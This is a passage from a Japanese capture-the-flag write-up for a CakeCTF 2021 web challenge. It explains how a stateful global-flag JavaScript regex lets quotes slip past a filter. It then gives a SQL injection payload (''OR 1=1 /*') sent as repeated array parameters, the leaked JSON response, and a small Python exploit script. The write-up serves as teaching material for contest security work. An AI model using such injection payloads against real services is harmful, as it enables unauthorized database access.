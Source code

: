色々実験したら次のような謎挙動が見つかりました:
```javascript
let filter = /(\'|\\|\s)/g;
["'", "'"].map(name => filter.exec(name))
▶ (2) [Array(2), null]
```

[MDN](https://developer.mozilla.org/ja/docs/Web/JavaScript/Guide/Regular_Expressions#using_the_global_search_flag_with_exec)によれば、gフラグのついたRegExpオブジェクトは状態が保持されるようです。知らなかった。

`'OR 1=1 /*` を適当に投げます[^1]:
```sh
$ http GET "http://web.cakectf.com:8002/api/neko?name[][]='OR%201%3D1%20%2F*&name[][]='OR%201%3D1%20%2F*&name[][]='OR%201%3D1%20%2F*&name[][]='OR%201%3D1%20%2F*&name[][]='OR%201%3D1%20%2F*&name[][]='OR%201%3D1%20%2F*&name[][]='OR%201%3D1%20%2F*&name[][]='OR%201%3D1%20%2F*&name[][]='OR%201%3D1%20%2F*&name[][]='OR%201%3D1%20%2F*"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 156
Content-Type: application/json; charset=utf-8
Date: Sun, 29 Aug 2021 15:53:03 GMT
Keep-Alive: timeout=5
X-Powered-By: Express

{
    "result": [
        {
            "age": 4,
            "name": "Nyanta",
            "nid": 22222222,
            "species": "American Shorthair"
        },
        {
            "age": 4,
            "name": "Nyanta",
            "nid": 22222222,
            "species": "American Shorthair"
        }
    ]
}
```
SQLiできることを確認できました。

[^1]: 実際にはコンテスト中にこの謎挙動の仕様調査はせず、10回くらい同じ文字列を投げれば何個かヒット漏れするでしょという気持ちで、雑にリクエストを投げています。

```python title="exploit.py"
import httpx
import sys


def req(part, n):
    res = httpx.get(
        "http://web.cakectf.com:8002/api/neko",
        params={
            "name[][]": [part] * n,
        },
    )
    assert res.status_code == 200
    print(res.text)


if __name__ == "__main__":
    req(sys.argv[1], 10)
```


[^2]: https://github.com/waderwu/My-CTF-Challenges/blob/master/0ctf-2021/1linephp/writeup/1linephp_writeup_en.md